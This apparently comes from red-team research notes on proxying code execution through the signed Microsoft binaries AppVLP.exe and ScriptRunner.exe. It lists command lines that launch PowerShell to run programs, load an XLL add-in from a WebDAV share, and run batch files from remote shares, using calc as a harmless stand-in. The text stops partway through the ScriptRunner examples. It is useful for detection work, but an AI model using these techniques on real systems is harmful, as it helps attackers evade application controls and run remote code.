 # Code Execution via AppVLP

## Examples
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe C:\Users\will\Desktop\Research\calc_bat.exe
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe C:\Users\will\Desktop\Research\calc.bat
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

### Command Line in procmon
```
C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_10.1706.1862.0_x64__8wekyb3d8bbwe\Calculator.exe" -ServerName:App.AppXsm3pg4n7er43kdh1qp4e79f1j7am68r8.mca
```

### Notes
- Access denied when ran from System32

# Code Execution via ScriptRunner
## Examples
```
C:\Windows\System32
λ ScriptRunner.exe -appvscript "\\fileserver\public\Will\calc.cmd"
λ ScriptRunner.exe -appvscript powershell.exe -args
